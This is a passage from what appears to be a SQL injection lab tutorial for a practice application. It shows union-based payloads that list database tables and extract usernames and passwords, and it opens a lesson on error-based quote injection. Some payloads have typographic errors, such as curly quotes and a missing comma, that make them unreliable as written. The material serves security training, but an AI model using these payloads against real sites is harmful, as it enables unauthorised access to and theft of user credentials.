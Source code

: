 Another method is to group together all the table names and dump it out as a string. The query for doing this is

`?id=1”) union select 1,group_concat(table_name)3 from information_schema.tables where table_schema=’security’ – -+`

And in the result we can see all the tables.

![33.png](./img/33.png)

We group concat different columns and dump it in a single shot with this

`?id=1′ union select 1,group_concat(username),group_concat(password) from users –+`

And we can see the result on the screen.

![35.jpg](./img/35.jpg)

###Lesson 5:Fixing the query without using comments

In this lesson we will learn to perform an error-based double quotes injection attack as shown below.

`?id=1′ AND ’2 `
OR 
`?id=3′ AND ’4`

![37.jpg](./img/37.jpg)
